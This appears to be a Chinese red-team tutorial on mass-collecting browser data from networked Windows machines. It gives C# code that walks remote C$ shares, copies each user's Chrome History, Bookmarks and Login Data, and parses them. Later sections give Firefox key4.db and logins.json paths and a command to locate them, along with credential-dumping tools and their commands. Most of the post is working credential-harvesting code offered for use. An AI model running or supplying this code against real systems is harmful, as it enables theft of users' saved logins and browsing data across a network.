







google 1.chrome浏览器的一些保存文件在 1 C:\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default
其中重要的文件为
1 2 3 Bookmarks 书签 History 历史记录 Login Data 保存密码相关记录
Login Data为sqlite保存形式，书签是json格式
2.脚本自动化收集信息 cover： 红队蓝军
创建machine.txt，逐行读取机器。
获取当前路径创建TargetChromeFiles目录
1 2 string currentpath = Directory.GetCurrentDirectory();string DesktopFiles = currentpath + "\\TargetChromeFiles" ;
遍历users目录如果存在```C:\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default``如果存在创建机器名文件夹以及对应的用户名文件夹
1 2 3 4 5 6 7 8 9 10 11 12 13 string userpath = @"\\" + machine + @"\c$\users" ;var user_list = Directory.EnumerateDirectories(userpath);foreach (string user in user_list) { string ChromePath = user + "\\AppData\\Local\\Google\\Chrome\\User Data\\Default" ; string username = substring(user); if (Directory.Exists(ChromePath)){ string MachineFolder = DesktopFiles + "\\" + machine; Directory.CreateDirectory(MachineFolder); string UserFolder = MachineFolder + "\\" + username; Directory.CreateDirectory(UserFolder); } }
获取对应机器以及用户的历史记录文件
1 2 3 4 5 6 7 8 9 string historyPath = ChromePath + "\\History" ;if (File.Exists(historyPath)){ string historyfile = UserFolder + "\\History" ; StreamWriter history_file = File.CreateText(historyfile); history_file.Close(); bool isrewrite = true ; File.Copy(historyPath, historyfile, isrewrite); }
如果存在就继续创建History文件，同理书签和密码保存位置
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 string loginPath = ChromePath + "\\Login Data" ;if (File.Exists(loginPath)){ string loginfile = UserFolder + "\\Login Data" ; StreamWriter login_file = File.CreateText(loginfile); login_file.Close(); bool isrewrite = true ; File.Copy(loginPath, loginfile, isrewrite); } string BookPath = ChromePath + "\\Bookmarks" ;if (File.Exists(BookPath)){ string bookfile = UserFolder + "\\Bookmarks" ; StreamWriter book_file = File.CreateText(bookfile); book_file.Close(); bool isrewrite = true ; File.Copy(BookPath, bookfile, isrewrite); }
dump效果

Login Data为sqlite保存形式

所以我们需要批量解析本地TargetChromeFiles目录内的所有文件为文本形式。把结果生在在本地的output_TargetChromeInfos目录。
首先创建该目录
1 2 3 string currentpath = Directory.GetCurrentDirectory();string getchromeinfopath = currentpath + "\\output_TargetChromeInfos" ;Directory.CreateDirectory(getchromeinfopath);
遍历TargetChromeFiles目录所有机器，创建对应的机器目录
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 string ChromeFilesPath = currentpath + "\\TargetChromeFiles" ;if (Directory.Exists(ChromeFilesPath)){ Console.ForegroundColor = ConsoleColor.Yellow; Console.WriteLine("[*]开始解析chrome浏览器信息" ); Console.ForegroundColor = ConsoleColor.White; var machine_list = Directory.EnumerateDirectories(ChromeFilesPath); foreach (string machine in machine_list) { Console.ForegroundColor = ConsoleColor.Yellow; string out_machine_info = substring(machine); Console.WriteLine("[*]" + out_machine_info); Console.ForegroundColor = ConsoleColor.White; string getmachinepath = getchromeinfopath + "\\" + out_machine_info; Directory.CreateDirectory(getmachinepath);
继续创建用户目录
1 2 3 4 5 6 7 8 9 var user_list = Directory.EnumerateDirectories(machine); foreach (string user in user_list) { Console.ForegroundColor = ConsoleColor.Yellow; string out_user_info = substring(user); Console.WriteLine(" " + out_user_info); Console.ForegroundColor = ConsoleColor.White; string getuserpath = getmachinepath + "\\" + out_user_info; Directory.CreateDirectory(getuserpath);
因为书签是json格式，这里我没有做任何处理。直接把内容写进out目录的Bookmarks文件了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 string book_path = user + "\\Bookmarks" ;if (File.Exists(book_path)){ string getbookpath = getuserpath + "\\Bookmarks" ; StreamWriter bookmark = File.CreateText(getbookpath); bookmark.Close(); File.Copy(book_path, getbookpath, true ); Console.ForegroundColor = ConsoleColor.Green; Console.WriteLine(" [*]bookmarks parse success" ); Console.ForegroundColor = ConsoleColor.White; } else { Console.ForegroundColor = ConsoleColor.Red; Console.WriteLine(" [-]bookmarks not found" ); Console.ForegroundColor = ConsoleColor.White; }
如果想要好看点可以如果代码来美化一下即可。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 from os import name import ref = open('C:/Users/Administrator/AppData/Local/Google/Chrome/User Data/Default/Bookmarks' ,encoding='UTF-8' ) while True: line = f.readline() if not line: break else : try: line.decode('utf8' ) except: res = (str(line)) url_re = re.compile('"url": "(.*?)"' ,re.I|re.S) name_re = re.compile('"name": "(.*?)"' ,re.I|re.S) url_result = url_re.findall(res) name_result = name_re.findall(res) for url in url_result: print (url)

看到历史记录文件

我们获取想要的即可
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 string History_path = user + "\\History" ;if (File.Exists(History_path)){ string gethistorypath = getuserpath + "\\History.txt" ; StreamWriter history = File.CreateText(gethistorypath); history.Close(); SQLiteConnection connect = new SQLiteConnection(@"Data Source=" + History_path); connect.Open(); SQLiteCommand fcmd = connect.CreateCommand(); fcmd.CommandText = @"select * from urls" ; fcmd.CommandType = CommandType.Text; SQLiteDataReader r = fcmd.ExecuteReader(); string HistoryHostof = "host:" + out_machine_info + "\r\n" ; string HistoryMemberof = "user:" + out_user_info + "\r\n\r\n" ; File.AppendAllText(gethistorypath, HistoryHostof); File.AppendAllText(gethistorypath, HistoryMemberof); while (r.Read()) { string title = (string )r["title" ]; string out_title = "title:" + title + "\r\n" ; string url = (string )r["url" ]; string out_url ="url:" + url + "\r\n\r\n" ; File.AppendAllText(gethistorypath, out_title); File.AppendAllText( gethistorypath, out_url); } connect.Close(); Console.ForegroundColor = ConsoleColor.Green; Console.WriteLine(" [*]history parse success" ); Console.ForegroundColor = ConsoleColor.White; } else { Console.ForegroundColor = ConsoleColor.Red; Console.WriteLine(" [-]history not found" ); Console.ForegroundColor = ConsoleColor.White; }
关于csharp操作sqlite这里不做过多介绍，网上也有很多相关代码和教程。
最近就是获取密码保存的文件记录
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 string LoginData_path = user + "\\Login Data" ;if (File.Exists(LoginData_path)){ string getloginypath = getuserpath + "\\Login Data.txt" ; StreamWriter login = File.CreateText(getloginypath); login.Close(); SQLiteConnection connect = new SQLiteConnection(@"Data Source=" + LoginData_path); connect.Open(); SQLiteCommand fcmd = connect.CreateCommand(); fcmd.CommandText = @"select * from logins" ; fcmd.CommandType = CommandType.Text; SQLiteDataReader r = fcmd.ExecuteReader(); string HistoryHostof = "host:" + out_machine_info + "\r\n" ; string HistoryMemberof = "user:" + out_user_info + "\r\n\r\n" ; File.AppendAllText(getloginypath, HistoryHostof); File.AppendAllText(getloginypath, HistoryMemberof); List<String> Field = new List<string >(); while (r.Read()) { string origin_url = (string )r["origin_url" ]; string out_origin_url = "origin_url:" + origin_url + "\r\n" ; string acition_url = (string )r["action_url" ]; string out_acition_url = "acition_url:" + acition_url + "\r\n" ; Int64 blacklisted_by_user = (Int64)r["blacklisted_by_user" ]; string out_blacklisted_by_user = "blacklisted_by_user:" + blacklisted_by_user + "\r\n" ; File.AppendAllText(getloginypath, out_origin_url); File.AppendAllText(getloginypath, out_acition_url); File.AppendAllText(getloginypath, out_blacklisted_by_user); } connect.Close(); Console.ForegroundColor = ConsoleColor.Green; Console.WriteLine(" [*]login data parse success" ); Console.ForegroundColor = ConsoleColor.White; } else { Console.ForegroundColor = ConsoleColor.Red; Console.WriteLine(" [-]login data not found" ); Console.ForegroundColor = ConsoleColor.White; }
当我们获取到blacklisted_by_user为1说明目标开启了不保存该网站密码，反之则保存。
这里测试环境为本机环境，经过大量授权实战环境测试，目前没有发现问题。

最后效果。


firefox 密码保存位置 用户的Firefox各种配置文件存储在自己的Appdata\Roaming（%appdata%）目录下：
1 C:\Users\admin\AppData\Roaming\Firefox\Profiles\<8位随机字母和数字的组合>.default\
不同版本的Firefox浏览器，存放登录信息文件和存放密钥 文件也不同，其中用到的加密方式也有少许不同：
1 2 3 4 5 6 7 Firefox 版本 <32 (key3.db, signons.sqlite) Firefox 版本 >=32 (key3.db, logins.json) Firefox 版本 >=58.0.2 (key4.db, logins.json) Firefox 版本 >=75.0 (sha1 pbkdf2 sha256 aes256 cbc used by key4.db, logins.json) 更详细的文件说明可参考： http://kb.mozillazine.org/Profile_folder_-_Firefox
如果Firefox 版本 >=58.0.2 那么接下来需要找的两个文件路径分别是：
1 2 3 4 5 C:\Users\admin\AppData\Roaming\Firefox\Profiles\<random text>.default\key4.db C:\Users\admin\AppData\Roaming\Firefox\Profiles\<random text>.default\logins.json logins.json将用户所有登录信息（包括URL，用户名，密码和其他元数据）存储为JSON。值得注意的是， 这些文件中的用户名和密码均经过3DES加密，然后经过ASN.1编码，最后写入base64编码的文件中，用 一个测试登录信息如下所示，其中encryptedUsername和encryptedPassword就是被加密的用户名和密码
定位logins.json文件的位置可通过cmd命令实现，内容如下：
1 dir %APPDATA%\Mozilla\Firefox\Profiles\*logins.json /s /b
导出密码 1.WebBrowserPassView.exe https://www.nirsoft.net/password_recovery_tools.html
2.firepwd.py 地址：https://github.com/lclevy/firepwd
3.Lazagne 地址：
https://github.com/AlessandroZ/LaZagne/
导出Firefox浏览器的代码来自https://github.com/lclevy/firepwd
4.firefox_decrypt.py 地址：https://github.com/unode/firefox_decrypt
使用NSS(Network Security Services)进行解密，支持key3.db和key4.db的Master Password解密
5.Firefox浏览器 通过导出配置文件的方式实现
需要获得记录文件(logins.json或signons.sqlite)和密钥文件(key4.db或key3.db)，保存在本地的文件夹C:\test\data1
使用-profile参数启动Firefox：
1 firefox.exe -profile C:\test\data1
输入正确的Master Password，成功获得Firefox浏览器保存的信息
在离线导出时需要注意以下问题： 1.未设置Master Password 只需要获得记录文件(logins.json或signons.sqlite)和密钥文件(key4.db或key3.db)
使用firepwd.py
2.设置Master Password (1)只获得记录文件(logins.json或signons.sqlite)和密钥文件(key4.db或key3.db)
本地使用Firefox浏览器导入配置文件，输入Master Password
(2)需要获得完整的配置文件
需要包括以下文件：
1 2 %APPDATA%\Mozilla\Firefox\profiles.ini %APPDATA%\Mozilla\Firefox\Profiles\xxxxxxxx.default\中的文件
使用firefox_decrypt.py，命令示例：
1 firefox_decrypt.py C:\test\data1